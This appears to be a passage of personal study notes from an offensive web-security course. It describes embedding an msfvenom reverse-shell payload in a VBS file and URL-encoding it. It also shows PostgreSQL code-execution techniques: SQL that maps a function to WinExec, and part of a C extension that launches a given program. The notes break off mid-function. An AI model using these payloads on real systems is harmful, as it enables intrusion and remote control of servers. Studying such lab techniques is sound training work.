then created msfvenom reverse payload.
 Converted the .vbs payload to a single line.
 converted the original wmiget.vbs to single line.
 
 Offsec suggested adding the payload at the end of existing wmiget.vbs file before quit function.
 But since that didn't work for me, I added it at the beginning of the file.
 
 Then the combined one line .vbs file content was urlencoded usind burp. That urlencoded content was used in replacing ENCODED_PAYLOAD.
 
 
 1
(MicroSoft, 2019), https://docs.microsoft.com/en-us/sysinternals/downloads/procmon ↩︎

PostgreSQL Extensions

```
CREATE OR REPLACE FUNCTION test(text) RETURNS void AS 'FILENAME', 'test' LANGUAGE 'C' STRICT;
```
Listing 40 - Basic SQL syntax to create a function from a local library

However, there is an important restriction that we need to keep in mind. The compiled extension we want to load must define an appropriate Postgres structure (magic block) to ensure that a dynamically library file is not loaded into an incompatible server.

```
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS 'C:\Windows\System32\kernel32.dll', 'WinExec' LANGUAGE C STRICT;
SELECT system('hostname');
ERROR:  incompatible library "c:\Windows\System32\kernel32.dll": missing magic block
HINT: Extension libraries are required to use the PG_MODULE_MAGIC macro.

********** Error **********
```
Listing 41 - Attempting to load a Windows DLL.

##### Build Environment

The following example code can be found in the poc.c source file within the awae solution:
```
01: #include "postgres.h"
02: #include <string.h>
03: #include "fmgr.h"
04: #include "utils/geo_decls.h"
05: #include <stdio.h>
06: #include "utils/builtins.h"
07: 
08: #ifdef PG_MODULE_MAGIC
09: PG_MODULE_MAGIC;
10: #endif
11: 
12: /* Add a prototype marked PGDLLEXPORT */
13: PGDLLEXPORT Datum awae(PG_FUNCTION_ARGS);
14: PG_FUNCTION_INFO_V1(awae);
15: 
16: /* this function launches the executable passed in as the first parameter
17: in a FOR loop bound by the second parameter that is also passed*/
18: Datum
19: awae(PG_FUNCTION_ARGS)
20: {
21: 	/* convert text pointer to C string */
22: #define GET_STR(textp) DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))
23: 
24:     /* retrieve the second argument that is passed to the function (an integer)
25:     that will serve as our counter limit*/
26:     int instances = PG_GETARG_INT32(1);
27: 
28:     for (int c = 0; c < instances; c++) {
29:         /*launch the process passed in the first parameter*/
```